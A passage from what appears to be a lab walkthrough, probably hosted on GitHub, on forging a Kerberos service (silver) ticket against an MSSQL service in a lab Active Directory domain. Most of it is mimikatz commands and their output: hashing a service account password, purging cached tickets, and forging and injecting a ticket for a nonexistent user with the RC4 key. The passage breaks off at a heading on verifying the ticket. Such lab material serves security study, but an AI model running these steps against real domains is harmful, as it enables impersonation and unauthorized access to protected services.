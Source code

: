 ### 4.3.2. Generate hash value for service account password

```cmd
mimikatz # kerberos::hash /password:P@ssw0rd
        * rc4_hmac_nt       e19ccf75ee54e06b06a5907af13cef42
        * aes128_hmac       f67365e0a00838aff75e6ca33f3c2be2
        * aes256_hmac       9e0de99003a18068f2e2186cd1162e9b6398f7b873854ccf16040ce16aa06d26
        * des_cbc_md5       76fdfece25e3da54
```

### 4.3.3. Purge existing kerberos tickets

> [!Important]
>
> Run `kerberos::purge` even if `klist` show zero cached tickets

```cmd
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
```

### 4.3.4. Generate KRB_TGS ticket

> [!Tip]
>
> The service identifies the user using the SID, the user name can be anything like `nonexistentuser`

```cmd
mimikatz # kerberos::golden /user:nonexistentuser /domain:LAB.VX /sid:S-1-5-21-1470288461-3401294743-676794760 /id:1105 /target:svr.lab.vx:1433 /service:MSSQLSvc /rc4:e19ccf75ee54e06b06a5907af13cef42 /ptt
User      : nonexistentuser
Domain    : LAB.VX (LAB)
SID       : S-1-5-21-1470288461-3401294743-676794760
User Id   : 1105
Groups Id : *513 512 520 518 519
ServiceKey: e19ccf75ee54e06b06a5907af13cef42 - rc4_hmac_nt
Service   : MSSQLSvc
Target    : svr.lab.vx:1433
Lifetime  : 18/4/2022 9:15:16 am ; 15/4/2032 9:15:16 am ; 15/4/2032 9:15:16 am
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'nonexistentuser @ LAB.VX' successfully submitted for current session
```

### 4.3.5. Verify ticket
